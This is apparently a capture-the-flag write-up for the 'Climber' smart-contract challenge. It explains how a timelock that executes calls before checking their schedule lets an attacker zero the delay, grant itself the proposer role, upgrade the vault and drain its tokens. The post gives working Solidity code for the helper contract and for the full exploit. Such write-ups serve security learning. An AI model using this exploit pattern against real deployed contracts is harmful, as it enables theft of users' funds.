 # Solving "Climber" - My Journey 🕵️‍♂️

## Overview

The **Climber** challenge presented a fascinating recursive dependency problem that required creative problem-solving. While the challenge appeared simple on the surface, it proved to be quite witty and required basic common sense.

## Steps Taken to Solve the Issue

Before diving into the recursive dependency solution, let me outline the complete exploit chain I figured:

1. The `ClimberVault` contract held all the tokens and was upgradeable, giving me the opportunity to deploy a new implementation with exploit-friendly functionality.
2. But the owner of `ClimberVault` was `ClimberTimelock`, meaning only `ClimberTimelock` could trigger the upgrade call.
3. This meant `upgradeToAndCall` needed to be triggered by `ClimberTimelock` itself.
4. Then I analysed the `ClimberTimelock` functions
   - `schedule` - Only callable by `PROPOSER_ROLE`
   - `execute` - Open for everyone to call
5. But `execute` came along with a caveat which is to successfully call `execute` for an operation, that operation needed to be `scheduled` first.
6. Another thing to note, to make the operation ready for execution immediately the `delay` value needed to be modified.
7. Hence to bypass the delay, the `updateDelay` function in `ClimberTimelock` needed to be called to change the delay from `1 hour to 0`, allowing all calls to be made in a single transaction.
8. This created a chain of required calls:
   - Call to `updateDelay`
   - Call to update the assignment of `PROPOSER_ROLE`
   - Call to upgrade the `ClimberVault` contract
   - Call to `schedule`
   - Call to `execute`

## The Dependency loop

The problem occured as follows:

1. Within the `execute` call, the final call needed to be a schedule call.
2. The `schedule` function needed to schedule itself as well for IDs to align.
3. This created a **circular dependency** where each function relied on the other.

## Initial Misunderstanding

My first instinct was to do something with the `salt` parameter, thinking it might provide a solution to the recursive dependency. However, after extensive testing, I found out that salt didn't play any substantial role in resolving the core issue.

## The Real Challenge

The fundamental problem was ensuring that both `schedule` and `execute` would modify states for the same operation ID. This became particularly tricky because:

- The last call to `schedule` within `execute` became problematic.
- `schedule` was trying to get an operation ID for 3 major operations (`Delay update`, `Propser update`, `Upgrade update`)
- `execute` was computing the operation ID based on 3 major calls plus the additional call to `schedule`.

This mismatch in operation ID calculation was the root cause of the issue.

## The Solution

To solve this problem, I created a separate helper contract with two main functions:

```javascript
contract HelperContract {
    address[] private s_targets;
    bytes[] private s_dataElements;
    ClimberTimelock immutable i_timelock ;

    constructor(ClimberTimelock timelock){
        i_timelock = timelock;
    }

    function setSchedule(address[] memory _targets, bytes[] memory _dataElements)external {
        s_targets = _targets;
        s_dataElements = _dataElements;
    }
    function callSchedule() external {
        uint256[] memory _values = new uint256[](s_targets.length);
        i_timelock.schedule(s_targets, _values, s_dataElements, 0);
    }
}
```

### Helper Contract Functions

1. **`setSchedule` Function**
   This function sets up the `targets` and `dataElements`, including the call to itself:
   ```javascript
   function setSchedule(address[] memory _targets, bytes[] memory _dataElements) external {
    s_targets = _targets;
    s_dataElements = _dataElements;
   }
   ```
2. **`callSchedule` Function**
   This function handles the actual scheduling:
   ```javascript
   function callSchedule() external {
    uint256[] memory _values = new uint256[](s_targets.length);
    i_timelock.schedule(s_targets, _values, s_dataElements, 0);
   }
   ```

## The Exploit code

```javascript
    ClimberVaultV2 vaultV2 = new ClimberVaultV2();
    HelperContract helper = new HelperContract(timelock);

    bytes memory data =
        abi.encodeCall(ClimberVaultV2.moveFunds, (address(token), VAULT_TOKEN_BALANCE, recovery));

    address[] memory scheduleTargets = new address[](4);
    uint256[] memory scheduleValues = new uint256[](4);
    bytes[] memory scheduleDataElements = new bytes[](4);

    scheduleTargets[0] = address(timelock);
    scheduleValues[0] = 0;
    scheduleDataElements[0] = abi.encodeCall(ClimberTimelock.updateDelay, (0));

    scheduleTargets[1] = address(timelock);
    scheduleValues[1] = 0;
    scheduleDataElements[1] = abi.encodeCall(AccessControl.grantRole, (PROPOSER_ROLE, address(helper)));

    scheduleTargets[2] = address(vault);
    scheduleValues[2] = 0;
    scheduleDataElements[2] = abi.encodeCall(UUPSUpgradeable.upgradeToAndCall, (address(vaultV2), data));

    scheduleTargets[3] = address(helper);
    scheduleValues[3] = 0;
    scheduleDataElements[3] = abi.encodeCall(HelperContract.callSchedule, ());

    helper.setSchedule(scheduleTargets, scheduleDataElements);

    timelock.execute(scheduleTargets, scheduleValues, scheduleDataElements, 0);

```

## Conclusion

This solution required thinking outside the box and implementing a helper contract pattern to break the circular dependency.

The key takeaway is that sometimes the most elegant solutions come from stepping back and restructuring the problem rather than trying to force a direct solution within the existing constraints.
